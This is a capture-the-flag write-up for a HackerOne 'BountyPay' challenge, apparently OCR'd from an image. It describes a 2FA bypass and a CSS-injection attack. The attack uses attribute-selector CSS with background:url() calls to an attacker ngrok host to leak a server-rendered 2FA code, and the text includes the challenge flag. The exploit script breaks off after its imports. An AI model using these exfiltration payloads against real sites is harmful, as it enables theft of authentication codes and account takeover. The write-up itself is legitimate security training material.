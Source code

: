 ```
You’re welcome, Marten!

#Injecting the uninjectable!

After logging in with Marten password on `https://app.bountypay.h1ctf.com`, I bypassed the 2FA mechanism the same way as before. 
Wow! I got a smile on my face, I can make the payment now and get the flag and the invite to h1-2006 event. Wait! A 2FA challenge again is needed to make the payment, my bad!
Well, after some recon on that part I found that we had two minutes to send a seven-character long `challenge_answer`. Brute forcing here is not a wise option since we are in lack of resources and time. I tried to send a random string with its MD5 as challenge but the challenge seems to be far more complicated.

I took a step back, and noticed that `app_style` parameter is sent with a POST request when we hit the “send challenge” button. I immediately fired up my VPS and got a hit from the server with the following `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/83.0.4103.61 HeadlessChrome/83.0.4103.61 Safari/537.36`. 
A blind SSRF in this context seems to be not applicable. 
I took a close look at the CSS file that the application is loading when visiting that link, it’s applying some styles to the body and branding “div”. So, what if I host the same file but with different value in the background-color? 
The response was unexpected, there were no changes applied to the background of the current page! So, I made the assumption that changes are happening server side. 
After doing some research I came across a nice article by `d0nut` explaining CSS injection attacks `(https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)`
To prove the existence of this vulnerability, I used the following css:
``` 
*[class*=challenge]~*{
        background:url(https://xyz.ngrok.io/challenge);
}
```
This code proves the existence of a class with name challenge.
I needed to find the input that will contain the code that is generated by the server, I assumed that that input would start with “code” (since the challenge page is talking about sending a code) and sent the following CSS:
```
input[name^=code]{
        background:url(https://xyz.ngrok.io/code);
}
```
After doing some brute force on the code name, I figured out that we have seven input in the form of `“code_X”` with X within [1-7].

#The final exploit:
I use the following python script to generate a css file that contains all possible alphanumeric strings combined with each code position and send them to the server, if a value exists for a particular code, the server will request our vps with `position/code_x_value`, then we parse our logs to get the whole code value . After getting the correct code,a POST request is sent through our proxy and a wonderful congratulation is printed back with the final ==FLAG=^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$==
```
import string
import requests
import os, re
from time import sleep
